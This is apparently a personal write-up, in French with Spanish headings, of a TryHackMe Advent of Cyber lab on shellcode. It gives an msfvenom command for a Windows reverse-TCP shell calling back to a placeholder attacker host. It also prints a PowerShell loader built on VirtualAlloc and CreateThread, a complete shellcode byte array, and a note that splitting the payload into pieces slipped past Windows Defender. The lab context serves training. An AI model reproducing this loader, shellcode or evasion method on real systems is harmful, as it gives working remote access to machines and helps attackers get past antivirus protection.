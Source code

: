 # Task 14 / Day 8: Shellcodes of the world, unite!

Jour 8 : Shellcodes du monde, unissez-vous !
Día 8: Shellcodes del mundo, ¡uníos!

- [Room THM](https://tryhackme.com/r/room/adventofcyber2024) 
- [Video youtube](https://www.youtube.com/watch?v=ZBZhfu1A3Fw&t=1s) 

## Learning Objectives

    Grasp the fundamentals of writing shellcode
    Generate shellcode for reverse shells
    Executing shellcode with PowerShell

## Generacion del shellcode con msfvenom

La creation du shellcode est un grand clasique en ligne de commande :

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
```

Ici, ne pas oublier de mettre la bonne ip dans **ATTACKBOX_IP**

## Powershell qui travaille comme python repl

Le passage entre les machines du shellcode enveloppé dans le script qui sera lancé par powershell est quasi imposible entre les onglets sur firefox...

### La premiere tentative

- on tente avec un serveur python de faire passer le script: ```python3 -m http.server 1110```
- on recupere le script que nous avons innocemment nommé shellcode.ps1
- on fait clic droit dessus et on demande l'execution avec **Powershell**

**Dommage !!!** , on se fais avoir au premier coup ! 

!["Troyan"](.//Trojan.png)

### La deuxième tentative

- on regarde bien la video et on comprend qu'il faut fractionner les étapes
- alors je vais créer apres lecture du script 3 fichiers texte
    1. déclaration des fonctions
    2. declaration du shellcode
    3. execution des fonctions

**1.txt)**

```
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread
```

**2.txt)**

```
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x4,0x57,0xa,0xa,0x9c,0x27,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5
```

**3.txt)**

!["Inteerop](./interop.png)

On lance netcat pour se mettre à l'écoute et on va envoyer les trois commandes precedentes une après l'autre et cette fois-ci cela fonctionne, Windows defender ne vois rien passer et le reverseshell fonctionne correctement.

Ce qui est interessant est que si je mets le code en image dans VScode en editant mon fichier markdown, mon fichier est automatiquement éffacé.

## Pour approfondir

Pour apprendre un peu plus sur les techniques d'obfucation il y a la salle [AV Evasion: Shellcode](https://tryhackme.com/r/room/avevasionshellcode)